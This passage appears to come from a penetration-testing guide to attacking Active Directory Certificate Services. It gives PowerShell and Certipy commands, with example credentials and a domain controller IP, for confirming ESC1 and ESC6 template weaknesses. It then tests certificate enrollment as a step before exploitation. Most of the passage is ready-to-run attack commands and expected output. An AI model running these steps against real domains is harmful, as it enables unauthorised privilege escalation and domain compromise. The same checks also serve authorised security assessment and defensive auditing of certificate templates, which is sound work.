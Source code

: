 **Always manually verify automated findings before exploitation:**

#### Verify ESC1 Template Configuration:

**Using Windows (if you have RDP/access):**

```powershell
# Open Certificate Authority MMC
certsrv.msc

# Or via PowerShell:
Get-ADObject -Filter {ObjectClass -eq "pKICertificateTemplate"} -Properties * | 
    Where-Object {$_.Name -eq "ESC1-Template"} | 
    Select-Object Name, pkiExtendedKeyUsage, msPKI-Certificate-Name-Flag

# Check msPKI-Certificate-Name-Flag:
# Value: 1 (0x1) = ENROLLEE_SUPPLIES_SUBJECT (VULNERABLE to ESC1)
# Value: 0 = Not vulnerable
```

---

**Using Linux (Certipy detailed enum):**

```bash
# Get detailed template information
certipy find -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    | grep -A 20 "ESC1-Template"

# Look for:
# Enrollee Supplies Subject: True  ← Confirms ESC1
```

---

#### Verify CA-Level Configuration (ESC6):

**Check if EDITF_ATTRIBUTESUBJECTALTNAME2 flag is set:**

```bash
certipy ca -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -ca 'CORP-DC01-CA'

# Output shows:
# User Specified SAN: Enabled  ← Confirms ESC6
```

---

### Step 15: Testing Enrollment Permissions

**Before exploitation, confirm you can actually enroll in the template:**

```bash
# Attempt to request certificate (without specifying SAN yet)
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'ESC1-Template' \
    -dc-ip 192.168.1.10

# Expected outputs:

# SUCCESS (can enroll):
# [*] Requesting certificate via RPC
# [+] Trying to get certificate
# [+] Got certificate with UPN 'user@corp.local'
# [*] Certificate has no object SID
```